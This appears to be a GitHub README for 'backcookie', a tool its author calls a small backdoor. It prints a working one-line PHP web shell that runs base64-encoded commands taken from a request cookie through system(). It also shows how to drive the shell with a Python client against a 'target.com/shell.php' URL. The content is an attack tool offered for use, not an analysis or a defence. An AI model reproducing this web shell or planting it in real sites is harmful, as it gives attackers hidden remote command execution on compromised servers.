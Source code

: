 backcookie
==========

[![Total views](https://sourcegraph.com/api/repos/github.com/jofpin/Backcookie/counters/views.png)](https://sourcegraph.com/github.com/jofpin/Backcookie)

Small backdoor using cookie.

==========

```php
<?php error_reporting(0); system(base64_decode($_COOKIE["yourcookie"])); ?>
```

```
Example: python backcookie.py -u http://target.com/shell.php -c name_cookie
```
Custom command (binfo), You get objective information
```
@pwned:~$ binfo
```

## Developer

-------------

Copyright, 2013 by [Jose Pino](http://twitter.com/jofpin)

-------------
